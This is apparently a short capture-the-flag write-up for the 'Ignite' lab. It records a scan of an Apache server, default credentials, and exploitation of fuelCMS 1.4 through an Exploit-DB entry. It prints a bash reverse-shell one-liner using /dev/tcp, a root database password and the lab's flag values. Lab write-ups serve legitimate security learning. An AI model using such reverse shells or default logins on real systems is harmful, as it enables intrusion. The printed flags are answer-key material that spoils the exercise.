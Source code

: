 # Ignite

### IP Address
```
10.10.235.13
```

### Ports

port | type | state | service | version
-----|------|-------|---------|--------
80 | open | tcp | http | Apache httpd 2.4.18 ((Ubuntu))
 

website running robots.txt file found with disallowed entry **/fuel/**

### Credentials found

>admin:admin

Website running on **fuelCMS v1.4**
Exploited **fuelCMS v1.4 using [exploit](https://www.exploit-db.com/exploits/47138)

created reverse shell connection using nc command

> bash -i >& /dev/tcp/10.10.235.13/4444 0>&1

### Questions
flag found in **/home** directory

>6470e394cbf6dab6a91682cc8585059b

credential for root user found in ```fuel/application/config/database.php```
>root:mememe

root flag found in **/root/root.txt**
>b9bbcb33e11b80be759c4e844862482d